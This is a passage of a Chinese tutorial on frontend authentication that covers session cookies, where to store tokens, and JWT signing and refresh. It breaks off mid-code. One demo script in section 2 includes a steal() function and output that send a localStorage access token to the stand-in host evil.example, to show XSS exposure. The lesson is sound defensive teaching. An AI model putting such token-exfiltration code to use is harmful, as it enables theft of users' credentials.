








# 前端认证模式：Cookie、Token 与 BFF

!!! abstract "学完这一页你能"
    - 说清 Session Cookie 与 Token 各自把凭据放在哪里，以及由此带来的风险差异。
    - 写出 Access Token 过期后用 Refresh Token 换新的流程，并处理并发刷新。
    - 用 SameSite、CSRF Token、Origin 校验三种手段挡住跨站请求伪造。
    - 在 SPA 里搭出授权码加 PKCE 的登录跳转，并用 BFF 把令牌留在服务端。

## 0. 知识地图



阅读顺序建议如下。

1. 先读第 1 节，把 Cookie 这条最老的路径走通。
2. 再读第 2、3 节，理解令牌放在哪里、过期后怎么续。
3. 接着读第 4、5 节，弄清两类攻击各自打哪一环。
4. 最后读第 6、7 节，看 PKCE 与 BFF 怎么把风险移出浏览器。

## 1. 登录之后，服务端怎么记住你

**先想一个问题**：你在 A 站登录成功，关掉标签页再打开 A 站，页面显示的还是你的头像。浏览器这次请求里没有任何账号密码，服务端凭什么认出你？答案藏在第一次登录的响应头里。

!!! note "术语：Cookie"
    服务端通过响应头 `Set-Cookie` 交给浏览器保存的一小段键值文本。浏览器在后续访问同一站点时，会自动把它放进请求头 `Cookie` 里。例子：响应头写 `Set-Cookie: sid=abc123; HttpOnly`，下次请求就会带 `Cookie: sid=abc123`。

!!! tip "心智模型"
    一句话模型：Cookie 是服务端发给你、由浏览器每次主动出示的手环，凭据本身存在服务端。

    日常类比：进游乐园时工作人员给你戴上手环，之后每个项目门口只看手环就放行，你不用重复报名字。

    类比不成立的地方：手环是实物，别人抢走就能用；Cookie 是一串文本，脚本读到它同样能用，所以浏览器提供了 `HttpOnly` 开关来禁止脚本读取。

!!! note "术语：Session"
    服务端为一次登录状态保存的记录。浏览器只拿到一个随机编号 session id，真正的用户信息放在服务端。例子：编号 `9f8e...` 对应服务端表里的一行 `{ userId: "u_42" }`。

**图解**



解读如下。

1. 浏览器把账号密码发给服务端，这一步是明文凭据唯一的出场机会，必须走 HTTPS。
2. 服务端校验密码，生成随机 session id，并把用户信息写进自己的会话表。
3. 服务端用 `Set-Cookie` 把 session id 交给浏览器，同时加上 `HttpOnly` 等属性。
4. 浏览器之后每次访问同站接口，自动把 Cookie 放进请求头。
5. 服务端用 session id 查表，查到就认为请求属于该用户。
6. 登出就是从表里删掉这行数据，即使浏览器还留着 Cookie 也用不了。

**一步一步来**

**第 1 步：服务端生成 session id 并写入会话表**

这一步只做一件事：把随机编号和用户信息关联起来，编号发给浏览器，用户信息留在服务端。

```js
// session-store.mjs
import { randomBytes } from 'node:crypto';

// 用 Map 模拟服务端会话表，生产环境换成 Redis 或数据库
const sessions = new Map();

export function createSession(userId) {
  // 32 字节随机数转成十六进制，得到 64 个字符的编号
  const sessionId = randomBytes(32).toString('hex');
  // 只有 userId 存在服务端，浏览器永远拿不到这份数据
  sessions.set(sessionId, { userId, createdAt: Date.now() });
  return sessionId;
}

export function readSession(sessionId) {
  // 查不到就返回 undefined，调用方据此判定未登录
  return sessions.get(sessionId);
}

export function destroySession(sessionId) {
  // 登出就是删除这一行
  return sessions.delete(sessionId);
}
```

**这段代码在做什么**

- `randomBytes(32)` 生成 32 字节密码学随机数，攻击者无法猜出下一个编号。
- `toString('hex')` 把字节转成十六进制，结果长度固定为 64 个字符。
- `sessions` 是服务端唯一的数据源，浏览器只持有键，不持有值。
- `readSession` 是每次请求的入口，返回 `undefined` 代表需要重新登录。
- `destroySession` 让登出立即生效，即使 Cookie 还在浏览器里。

**运行结果**

```text
createSession 返回: 3f9a...c1
readSession 返回: { userId: 'u_42', createdAt: 1710000000000 }
readSession 传入伪造值: undefined
```

**第 2 步：下发 Cookie 并在后续请求里解析它**

这一步把 session id 装进 `Set-Cookie`，并写一个最小的解析函数把请求头还原成对象。

```js
// cookie-util.mjs
export function buildSetCookie(sessionId) {
  // HttpOnly 禁止 document.cookie 读取该 Cookie
  // SameSite=Lax 跨站时不发送，用来降低 CSRF 风险
  // Max-Age 单位是秒，604800 秒等于 7 天
  const attrs = [
    `sid=${sessionId}`,
    'HttpOnly',
    'SameSite=Lax',
    'Path=/',
    'Max-Age=604800',
  ];
  return attrs.join('; ');
}

export function parseCookies(header) {
  // header 形如 a=1; b=2，先按分号切开
  const out = {};
  if (!header) return out;
  for (const part of header.split(';')) {
    const idx = part.indexOf('=');
    if (idx === -1) continue;
    const key = part.slice(0, idx).trim();
    const value = part.slice(idx + 1).trim();
    out[key] = value;
  }
  return out;
}
```

**这段代码在做什么**

- `HttpOnly` 让 `document.cookie` 读不到这一项，注入脚本拿不走它。
- `SameSite=Lax` 规定跨站请求不带这个 Cookie，转账类接口少了一个入口。
- `Max-Age=604800` 是相对过期时间，浏览器据此自动清理。
- `parseCookies` 先按分号切段，再按第一个等号切成键和值。
- 值里如果本身含等号，用 `slice` 保留后半段，不会被截断。

**运行结果**

```text
buildSetCookie: sid=3f9a...c1; HttpOnly; SameSite=Lax; Path=/; Max-Age=604800
parseCookies: { sid: '3f9a...c1' }
```

**动手验证**

下面这个脚本不依赖任何第三方包，Node 20 以上直接运行。

```js
// 依赖：无。运行方式：node session-demo.mjs
import { randomBytes } from 'node:crypto';
import assert from 'node:assert/strict';

const sessions = new Map();

function createSession(userId) {
  const sessionId = randomBytes(32).toString('hex');
  sessions.set(sessionId, { userId });
  return sessionId;
}

function buildSetCookie(sessionId) {
  return [`sid=${sessionId}`, 'HttpOnly', 'SameSite=Lax', 'Path=/', 'Max-Age=604800'].join('; ');
}

function parseCookies(header) {
  const out = {};
  if (!header) return out;
  for (const part of header.split(';')) {
    const idx = part.indexOf('=');
    if (idx === -1) continue;
    out[part.slice(0, idx).trim()] = part.slice(idx + 1).trim();
  }
  return out;
}

// 1. 登录：服务端建会话，下发 Cookie
const sid = createSession('u_42');
const setCookie = buildSetCookie(sid);
console.log('Set-Cookie:', setCookie);

// 2. 浏览器下一次请求把 Cookie 带回来
const cookieHeader = setCookie.split(';')[0];
const jar = parseCookies(cookieHeader);
assert.equal(jar.sid, sid);

// 3. 服务端按 Cookie 还原身份
const session = sessions.get(jar.sid);
assert.equal(session.userId, 'u_42');
console.log('还原用户:', session.userId);

// 4. 伪造的编号查不到任何数据
assert.equal(sessions.get('deadbeef'), undefined);
console.log('伪造 sid 被拒绝');

// 5. 登出后同一个 Cookie 失效
sessions.delete(sid);
assert.equal(sessions.get(jar.sid), undefined);
console.log('登出后会话失效');

console.log('全部断言通过');
```

预期输出：

```text
Set-Cookie: sid=8c1f...9a; HttpOnly; SameSite=Lax; Path=/; Max-Age=604800
还原用户: u_42
伪造 sid 被拒绝
登出后会话失效
全部断言通过
```

**常见坑**

| 现象 | 原因 | 怎么修 |
| --- | --- | --- |
| 每次刷新都退出登录 | Cookie 没设 `Max-Age` 或 `Expires`，成了一次性会话 Cookie | 服务端明确下发 `Max-Age`，并让会话表里的记录同步过期 |
| 登录成功了但接口返回 401 | 前端请求没带 Cookie，跨域时未设置 `credentials` | 同域部署，或让 `fetch` 带上 `credentials: "include"` 并让服务端返回 `Access-Control-Allow-Credentials: true` |
| 部署到多个子域后登录错乱 | `Domain` 属性没配置，Cookie 只发往当前主机 | 明确设置 `Domain=.example.com`，并核对 `Path` 是否覆盖接口路径 |
| 登出后旧 Cookie 还能用 | 只清了浏览器 Cookie，服务端会话表没删 | 登出接口先删会话表记录，再返回清 Cookie 的响应头 |

**小结**

1. Session 模式下，凭据真身在服务端，浏览器只拿一个随机编号。
2. `HttpOnly` 与 `SameSite` 是这一节里两个必须手写的属性。
3. 登出必须同时清理服务端记录与浏览器 Cookie，否则状态不一致。

## 2. 凭据放哪里：内存、localStorage 与 HttpOnly Cookie

**先想一个问题**：接口改用 Token 鉴权后，前端要把这个字符串放在哪里？内存变量、`localStorage`、`HttpOnly Cookie` 三个位置，安全和体验的取舍完全不同。

!!! note "术语：访问令牌 (Access Token)"
    服务端签发的一串字符，客户端调用接口时放进请求头，用来证明身份。例子：请求头 `Authorization: Bearer eyJhbGci...`。

!!! note "术语：localStorage"
    浏览器提供的同源键值存储，数据在页面刷新和关闭标签页后仍然保留，任何在该源上运行的脚本都能读写。



解读如下。

1. 内存变量写在模块作用域，页面刷新后整个 JS 环境重建，变量归零。
2. `localStorage` 的数据按源隔离，但同源下的任何脚本都能读到，包括被注入的脚本。
3. `HttpOnly Cookie` 对脚本不可见，注入脚本读不到它。
4. 代价是浏览器会自动携带，跨站请求也会带上，所以必须配 CSRF 防护。
5. 内存方案需要额外的刷新令牌，才能让用户刷新页面后仍是登录态。

**一步一步来**

**第 1 步：把令牌关在模块作用域里**

这一步用闭包保存令牌，外部模块只能通过导出的函数访问，无法直接引用变量。

```js
// token-memory.mjs
// 模块顶层的 let 不会被挂到 window 上，外部脚本读不到这个绑定
let accessToken = null;
let expiresAt = 0;

export function setToken(token, ttlMs) {
  accessToken = token;
  // 记录过期时刻，读取时可以提前判断
  expiresAt = Date.now() + ttlMs;
}

export function getToken() {
  return accessToken;
}

export function isExpired(skewMs = 30000) {
  // 提前 30 秒算过期，避免请求刚发出令牌就失效
  return Date.now() + skewMs >= expiresAt;
}

export function clearToken() {
  accessToken = null;
  expiresAt = 0;
}
```

**这段代码在做什么**

- 模块作用域变量不会成为 `window` 属性，注入脚本无法按名字读取。
- `ttlMs` 表示令牌有效期，`expiresAt` 把它换算成绝对时间。
- `isExpired` 预留 30 秒提前量，减少请求途中过期的情况。
- `clearToken` 让登出立刻生效，内存中不再残留字符串。
- 代价是页面刷新后 `accessToken` 是 `null`，需要走刷新流程恢复。

**运行结果**

```text
setToken 后 getToken: tok_abc123
刷新页面后 getToken: null
```

**第 2 步：对比脚本能读到什么**

这一步搭一个只含"脚本可见数据"的视图对象，验证 `HttpOnly` 的项不在其中。

```js
// script-view.mjs
// 浏览器给页面脚本的可见集合里，只有 localStorage 和未加 HttpOnly 的 Cookie
export function makeScriptView(localStorageData, scriptCookies) {
  return {
    localStorageGet: (key) => localStorageData.get(key),
    cookieKeys: () => [...scriptCookies.keys()],
  };
}

// 新增一项 Cookie 时，只有没标 HttpOnly 的才进入脚本可见表
export function addCookie(visibleJar, name, value, httpOnly) {
  if (!httpOnly) visibleJar.set(name, value);
  return visibleJar;
}
```

**这段代码在做什么**

- `makeScriptView` 收到的两个参数就是脚本能触碰的全部数据。
- `localStorageGet` 直接对外暴露 `localStorage` 的读取能力。
- `cookieKeys` 只列出脚本可见的 Cookie 名称。
- `addCookie` 用 `httpOnly` 布尔值决定是否写进可见表，模拟浏览器行为。

**运行结果**

```text
脚本读 localStorage: tok_abc123
脚本可见 Cookie: theme
```

**动手验证**

```js
// 依赖：无。运行方式：node storage-demo.mjs
import assert from 'node:assert/strict';

// 模拟：localStorage 里的数据，脚本随时可读
const localStorageData = new Map();
localStorageData.set('access_token', 'tok_abc123');

// 模拟：未加 HttpOnly 的 Cookie，脚本通过 document.cookie 可见
const scriptCookies = new Map();
scriptCookies.set('theme', 'dark');

// 模拟：加了 HttpOnly 的 Cookie，只存在浏览器网络层，脚本视图里没有
const httpOnlyJar = new Map();
httpOnlyJar.set('sid', 's_9f8e7d');

function makeScriptView(localData, cookies) {
  return {
    localStorageGet: (key) => localData.get(key),
    cookieKeys: () => [...cookies.keys()],
  };
}

const view = makeScriptView(localStorageData, scriptCookies);

console.log('脚本读 localStorage:', view.localStorageGet('access_token'));
console.log('脚本可见 Cookie:', view.cookieKeys().join(','));

// 1. localStorage 里的令牌脚本一定能拿到
assert.equal(view.localStorageGet('access_token'), 'tok_abc123');

// 2. 脚本可见的 Cookie 只有 theme
assert.deepEqual(view.cookieKeys(), ['theme']);

// 3. HttpOnly 的表不在脚本视图里，脚本拿不到 sid
assert.equal('httpOnlyJar' in view, false);
assert.equal(view.cookieKeys().includes('sid'), false);
console.log('断言通过：HttpOnly Cookie 不在脚本可见集合内');

// 4. 令牌放进 localStorage 的后果：任何一个注入脚本都能把它发到外部
function steal(localData) {
  return `https://evil.example/collect?t=${localData.get('access_token')}`;
}
assert.match(steal(localStorageData), /tok_abc123/);
console.log('localStorage 方案被 XSS 读取时的请求:', steal(localStorageData));
```

预期输出：

```text
脚本读 localStorage: tok_abc123
脚本可见 Cookie: theme
断言通过：HttpOnly Cookie 不在脚本可见集合内
localStorage 方案被 XSS 读取时的请求: https://evil.example/collect?t=tok_abc123
```

**常见坑**

| 现象 | 原因 | 怎么修 |
| --- | --- | --- |
| 用户刷新页面就退出 | 令牌只存在内存变量里，页面重建后变量归零 | 加 Refresh Token 换取流程，或在服务端用 HttpOnly Cookie 承载会话 |
| 第三方统计脚本把令牌读走了 | 令牌写在 `localStorage`，同源脚本全部可读 | 令牌改放 `HttpOnly Cookie`，前端不再接触字符串 |
| 换成 Cookie 后出现跨站伪造请求 | Cookie 自动携带，接口没有来源校验 | 同时开启 `SameSite=Lax`、校验 `Origin` 头、加 CSRF Token |
| 多标签页登录状态互相覆盖 | 各标签页各存一份内存令牌，刷新时机不同 | 用 `BroadcastChannel` 同步登出事件，或统一由 Cookie 承载状态 |

**小结**

1. 令牌放在哪里，决定了它面对 XSS 和 CSRF 时的暴露面。
2. 内存方案对 XSS 友好，但代价是刷新丢失，必须配套刷新令牌。
3. `HttpOnly Cookie` 挡住脚本读取，同时把 CSRF 防护变成必须做的功课。

## 3. Access Token 过期与刷新流程

**先想一个问题**：产品经理要求"用户一个月内不用重复登录"，安全同学又要求"令牌泄露后最多 15 分钟内失效"。这两个要求只能用两个不同寿命的令牌同时满足。

!!! note "术语：JSON Web Token (JWT)"
    一种把声明写在负载里的令牌格式，由三段 base64url 字符串用点连接而成。例子：`eyJhbGci...eyJzdWIi...SflKxwRJ`，第二段解出来是 `{"sub":"u_42","exp":1710000900}`。

!!! note "术语：Refresh Token"
    寿命较长、只用于换取新 Access Token 的凭据。它不直接用于业务接口，所以泄露窗口可以用轮换机制压小。



解读如下。

1. 登录成功后拿到两个令牌，寿命不同，用途也不同。
2. 业务请求只带短期 Access Token，即使泄露，攻击窗口也受寿命限制。
3. 接口返回 401 且原因为过期时，前端才触发刷新。
4. 刷新请求带上 Refresh Token，认证服务校验后签发新的一对令牌。
5. 服务端作废旧的 Refresh Token，实现一次性使用与轮换。
6. 前端用新 Access Token 重放刚才失败的业务请求。

**一步一步来**

**第 1 步：用 HS256 签发带过期时间的 Access Token**

这一步手写一个最小 JWT 签发器，把 `exp` 声明写进负载。

```js
// jwt-sign.mjs
import { createHmac } from 'node:crypto';

// 生产环境从密钥管理服务读取，不要写进代码仓库
const SECRET = 'dev-secret-do-not-use-in-prod';

function b64url(input) {
  // 转成 base64url，去掉填充等号，符合 JWT 的编码要求
  return Buffer.from(input).toString('base64url');
}

export function sign(payload) {
  const header = b64url(JSON.stringify({ alg: 'HS256', typ: 'JWT' }));
  const body = b64url(JSON.stringify(payload));
  const data = `${header}.${body}`;
  // 对前两段做 HMAC-SHA256，得到第三段签名
  const sig = createHmac('sha256', SECRET).update(data).digest('base64url');
  return `${data}.${sig}`;
}

export function signAccessToken(userId, ttlSeconds) {
  // exp 是 Unix 秒，不是毫秒
  const exp = Math.floor(Date.now() / 1000) + ttlSeconds;
  return sign({ sub: userId, exp });
}
```

**这段代码在做什么**

- `b64url` 统一处理编码，避免出现 URL 中需要转义的字符。
- 头部固定写 `alg` 与 `typ`，`alg` 的值会被验签方读取。
- 签名只覆盖前两段，改动负载会导致验签失败。
- `exp` 以 Unix 秒为单位，与 JWT 规范一致。
- 密钥一旦泄露，任何人都能签发令牌，所以必须放在服务端。

**运行结果**

```text
签发结果: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1XzQyIiwiZXhwIjoxNzEwMDAwOTAwfQ.xxxx
```

**第 2 步：验签并区分"签名错"与"已过期"**

这两种失败的处理方式不同：签名错要拒绝并记录，过期则触发刷新。

```js
// jwt-verify.mjs
import { createHmac, timingSafeEqual } from 'node:crypto';

export function verify(token, secret, nowSeconds = Math.floor(Date.now() / 1000)) {
  const parts = token.split('.');
  if (parts.length !== 3) return { ok: false, reason: 'format' };
  const [header, body, sig] = parts;
  // 用同一个密钥重算签名
